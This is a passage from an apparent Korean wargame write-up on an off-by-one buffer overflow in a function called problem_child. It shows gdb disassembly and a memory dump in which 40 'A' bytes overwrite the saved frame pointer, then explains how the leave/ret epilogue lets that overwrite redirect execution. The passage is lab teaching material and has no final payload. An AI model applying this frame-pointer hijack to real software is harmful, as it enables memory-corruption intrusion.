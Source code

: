 `0x804849d`에 Breakpoint를 걸고 buf의 값을 확인해 보도록 하겠습니다.

{% highlight bash %}
Dump of assembler code for function problem_child:
	0x0804847d <+0>:	push	ebp
	0x0804847e <+1>:	mov 	ebp,esp
	0x08048480 <+3>:	sub 	esp,0x34
	0x08048483 <+6>:	mov	DWORD PTR [esp+0x8],0x29
	0x0804848b <+14>:	mov	eax,DWORD PTR [ebp+0x8]
	0x0804848e <+17>:	mov	DWORD PTR [esp+0x4],eax
	0x08048492 <+21>:	lea 	eax,[ebp-0x28]
	0x08048495 <+24>:	mov 	DWORD PTR [esp],eax
	0x08048498 <+27>:	call 	0x8048370 <strncpy@plt>
	0x0804849d <+32>:	lea 	eax,[ebp-0x28]
	0x080484a0 <+35>:	mov	DWORD PTR [esp],eax
	0x080484a3 <+38>:	call	0x8048330 <puts@plt>
	0x080484a8 <+43>:	leave
	0x080484a9 <+44>:	ret
End of assembler dump.
{% endhighlight %}

{% highlight bash %}
gdb-peda$ x/10wx $ebp-0x28
0xbffff0f4:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff104:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff114:	0x41414141	0x41414141	0xbffff142 	0x080484de
0xbffff124:	0xbffff39f	0x00000000 	0xb7e2fa83 	0x00000002
0xbffff134:	0xbffff1c4	0xbffff1d0	0xb7feccea	0x00000002
{% endhighlight %}

40개의 A와 B를 넣었더니 위와 같이 buf에 값이 채워졌습니다. 그리고 SFP의 값이 `0xbffff142`로 변조된 것도 확인할 수 있습니다.

이 변조된 값을 `함수의 에필로그`를 이용하여 리턴 값을 조작할 수 있습니다.

함수의 에필로그는 `leave`와 `ret`이 있는데 이 어셈블리어는 각각 `mov esp, ebp` `pop ebp`와 `pop eip` `jmp eip`가 됩니다.

{% highlight bash %}
gdb-peda$ pdisas main
Dump of assembler code for function main:
	0x080484aa <+0>:	push	ebp
	0x080484ab <+1>:	mov 	ebp,esp
	0x080484ad <+3>:	sub 	esp,0x4
	0x080484b0 <+6>:	cmp	DWORD PTR [ebp+0x8],0x1
	0x080484b4 <+10>:	jg	0x80484ce <main+36>
	0x080484b6 <+12>:	mov	DWORD PTR [esp],0x8048570
	0x080484bd <+19>:	call	0x8048330 <puts@plt>
	0x080484c2 <+24>:	mov	DWORD PTR [esp],0x0
	0x080484c9 <+31>:	call	0x8048350 <exit@plt>
	0x080484ce <+36>:	mov	eax, DWORD PTR [ebp+0xc]
	0x080484d1 <+39>:	add 	eax,0x4
	0x080484d4 <+42>:	mov	eax,DWORD PTR [eax]
	0x080484d6 <+44>:	mov	DWORD PTR [esp],eax
	0x080484d9 <+47>:	call	0x804847d <problem_child>
=>	0x080484de <+52>:	leave
	0x080484df <+53>:	ret
End of assembler dump.
{% endhighlight %}
